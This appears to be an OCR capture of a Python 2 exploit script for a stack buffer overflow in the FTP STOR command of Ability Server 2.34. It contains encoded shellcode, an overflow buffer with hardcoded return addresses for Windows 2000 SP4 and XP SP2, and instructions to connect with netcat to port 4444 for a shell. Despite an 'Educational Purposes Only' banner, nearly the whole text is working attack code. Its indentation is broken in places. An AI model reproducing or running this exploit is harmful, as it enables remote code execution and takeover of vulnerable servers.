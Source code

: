```python

import ftplib
from ftplib import FTP
import struct
print "\n\n################################"
print "\nAbility Server 2.34 FTP STOR buffer Overflow"
print "\nFor Educational Purposes Only!\n"
print "###################################"

# Shellcode taken from Sergio Alvarez's "Win32 Stack Buffer Overflow Tutorial"

sc = "\xd9\xee\xd9\x74\x24\xf4\x5b\x31\xc9\xb1\x5e\x81\x73\x17\xe0\x66"
sc += "\x1c\xc2\x83\xeb\xfc\xe2\xf4\x1c\x8e\x4a\xc2\xe0\x66\x4f\x97\xb6"
sc += "\x1a\x38\xd6\x95\x87\x97\x98\xc4\x67\xf7\xa4\x6b\x6a\x57\x49\xba"
sc += "\x7a\x1d\x29\x6b\x62\x97\xc3\x08\x8d\x1e\xf3\x20\x39\x42\x9f\xbb"
sc += "\xa4\x14\xc2\xbe\x0c\x2c\x9b\x84\xed\x05\x49\xbb\x6a\x97\x99\xfc"
sc += "\xed\x07\x49\xbb\x6e\x4f\xaa\x6e\x28\x12\x2e\x1f\xb0\x95\x05\x61"
sc += "\x8a\x1c\xc3\xe0\x66\x4b\x94\xb3\xef\xf9\x2a\xc7\x66\x1c\xc2\x70"
sc += "\x67\x1c\xc2\x56\x7f\x04\x25\x44\x7f\x6c\x2b\x05\x2f\x9a\x8b\x44"
sc += "\x7c\x6c\x05\x44\xcb\x32\x2b\x39\x6f\xe9\x6f\x2b\x8b\xe0\xf9\xb7"
sc += "\x35\x2e\x9d\xd3\x54\x1c\x99\x6d\x2d\x3c\x93\x1f\xb1\x95\x1d\x69"
sc += "\xa5\x91\xb7\xf4\x0c\x1b\x9b\xb1\x35\xe3\xf6\x6f\x99\x49\xc6\xb9"
sc += "\xef\x18\x4c\x02\x94\x37\xe5\xb4\x99\x2b\x3d\xb5\x56\x2d\x02\xb0"
sc += "\x36\x4c\x92\xa0\x36\x5c\x92\x1f\x33\x30\x4b\x27\x57\xc7\x91\xb3"
sc += "\x0e\x1e\xc2\xf1\x3a\x95\x22\x8a\x76\x4c\x95\x1f\x33\x38\x91\xb7"
sc += "\x99\x49\xea\xb3\x32\x4b\x3d\xb5\x46\x95\x05\x88\x25\x51\x86\xe0"
sc += "\xef\xff\x45\x1a\x57\xdc\x4f\x9c\x42\xb0\xa8\xf5\x3f\xef\x69\x67"
sc += "\x9c\x9f\x2e\xb4\xa0\x58\xe6\xf0\x22\x7a\x05\xa4\x42\x20\xc3\xe1"
sc += "\xef\x60\xe6\xa8\xef\x60\xe6\xac\xef\x60\xe6\xb0\xeb\x58\xe6\xf0"
sc += "\x32\x4c\x93\xb1\x37\x5d\x93\xa9\x37\x4d\x91\xb1\x99\x69\xc2\x88"
sc += "\x14\xe2\x71\xf6\x99\x49\xc6\x1f\xb6\x95\x24\x1f\x13\x1c\xaa\x4d"
sc += "\xbf\x19\x0c\x1f\x33\x18\x4b\x23\x0c\xe3\x3d\xd6\x99\xcf\x3d\x95"
sc += "\x66\x74\x32\x6a\x62\x43\x3d\xb5\x62\x2d\x19\xb3\x99\xcc\xc2"
# Change RET address if need be.
buffer = '\x41'*966+struct.pack('<L', 0x7C2FA0F7)+'\x42'*32+sc # RET Windows 2000 Server SP4
#buffer = '\x41'*970+struct.pack('<L', 0x7D17D737)+'\x42'*32+sc # RET Windows XP SP2
try:
# Edit the IP, Username and Password.
ftp = FTP('127.0.0.1')
ftp.login('ftp','ftp')
print "\nEvil Buffer sent..."
print "\nTry connecting with netcat to port 4444 on the remote machine."
except:
print "\nCould not Connect to FTP Server."
try:
ftp.transfercmd("STOR " + buffer)
except:
print "\nDone."
```

![ImgPlaceholder](https://imgplaceholder.com/420x320/cccccc/121010/fa-image)
